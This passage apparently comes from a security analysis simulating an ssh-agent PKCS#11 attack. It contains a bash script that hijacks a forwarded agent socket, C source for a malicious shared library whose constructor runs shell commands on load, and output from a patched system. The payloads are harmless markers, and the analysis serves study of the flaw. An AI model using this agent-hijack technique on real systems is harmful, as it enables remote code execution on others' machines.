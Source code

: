 #### Exploitation Script (`exploit.sh`)

```bash
#!/bin/bash

# Use forwarded agent
export SSH_AUTH_SOCK=$(echo /tmp/ssh-*/agent.*)

# Trigger the malicious shared object via ssh-agent
ssh-add -s /usr/lib/x86_64-linux-gnu/pkcs11/evil.so
```

### 4.3 Simulation Results and Analysis

#### Expected Behavior in Vulnerable Systems

| **Action**                | **Vulnerable System Response**      | **Patched System Response** |
| ------------------------- | ----------------------------------- | --------------------------- |
| `ssh-add -s malicious.so` | Library loads, constructor executes | `agent refused operation`   |
| Payload execution         | Creates `/tmp/exploit.log`          | No execution                |
| System impact             | Remote code execution               | No impact                   |

#### Actual Simulation Output

When running the simulation on a patched system (OpenSSH 9.3p2+):

```
Enter passphrase for PKCS#11:
Could not add card "/.../evil.so": agent refused operation
```

**Key Observation**: Even though the agent refuses the operation in patched versions, this simulation demonstrates the attack vector and helps understand the vulnerability's impact in older versions.

### 4.4 Payload Construction Analysis

#### C-based Malicious Library

```c
// evil.c - Example malicious PKCS#11 library
#include <stdlib.h>
#include <stdio.h>

__attribute__((constructor))
void malicious_constructor() {
    // This executes immediately when dlopen() is called
    system("echo 'Exploit triggered' > /tmp/exploit.log");
    system("touch ~/exploit.txt");
    // In a real attack, this could download and execute additional payloads
}

// Minimal PKCS#11 function to make it appear legitimate
void C_Initialize() {
    return;
}
```
